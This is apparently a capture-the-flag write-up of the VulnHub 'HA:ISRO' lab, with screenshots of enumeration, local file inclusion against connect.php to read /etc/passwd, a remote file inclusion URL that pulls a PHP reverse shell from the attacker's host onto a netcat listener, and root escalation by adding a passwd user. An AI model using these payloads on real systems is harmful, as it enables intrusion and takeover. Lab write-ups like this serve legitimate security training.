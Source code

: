 # HA:ISRO !~~~~ VULNHUB

quickly dive into enumeration:
:nmap:


![2024-09-16_20-48](https://github.com/user-attachments/assets/8f385e61-ed5a-4909-a562-d2553b72858b)



# NIKTO for finding the hidden directories
![2024-09-16_20-57](https://github.com/user-attachments/assets/db908d8b-f883-41b8-a9ab-98f1afff5bcf)




# ::::::i've run  another tool called dirb for hidden dicrectories searching::::

![2024-09-16_21-05](https://github.com/user-attachments/assets/c144594d-2def-46b1-a02a-61d3571ea09a)


After getting /connect.php i simply search it 
http://192.168.73.147/connect.php {its shows blank so is use another method}
~
`
`





# Then i simply perform url injection for getting the passwd file insidings

http://192.168.73.147/connect.php?file=/etc/passwd

![2024-09-16_21-11](https://github.com/user-attachments/assets/7552f865-0c14-46b2-938f-545621631b38)




# After than i simply look onto RFI vulnarebility which actually it shows , so i begin dig in
FIRSTLY :: i've to generate a reverse shell so i downloaded the file called php-reverse-shell/php 
           then i simply edited my own ip and port will be 1234 
           ![2024-09-17_12-35](https://github.com/user-attachments/assets/a65b7aeb-f543-4e13-96d2-a81d77765425)

2ND-LY  :: I've type in url {{http://192.168.73.147/connect.php?file=http://192.168.73.129:5000/php-reverse-shell.php}}
THIRDL-LY :: equivalently i use nc -lvnp 1234 for getting the shell  
             
![2024-09-17_12-44](https://github.com/user-attachments/assets/98c2a376-7627-4b56-aa13-be0638b70219)

  FINALLY get the shell but not in interactive mode
  so i use python script to generate-interactive mode using 
   [python3 -c "import pty;pty.spawn('/bin/bash') ;" ]
  succesfully in interactive mode 
  but not accessing in root so, performing previledge-escalation  
  # FOr that instance i've to create a openssl session and also genareting hash for our new user and gettin also with root previledges 
                                               {openssl passwd -1 -salt user HA:ISRO}
 

   ![2024-09-17_12-54](https://github.com/user-attachments/assets/782b7a8d-7892-4d0d-8d98-9ce0bcccfcd1)
    
    
    
now i've  create a user called darkey and passwd will be-HA:ISRO
  ![2024-09-17_12-58](https://github.com/user-attachments/assets/aa2c15a7-995d-4db5-9f12-91737df53902)

  

then i simp-lly check weather the new user created or not 


![2024-09-17_13-05](https://github.com/user-attachments/assets/8e8925e2-9e46-4515-b8bd-de397c2522f3)


then accessing the root previledge using new user
then i go to cd root then final.txt and get the flag














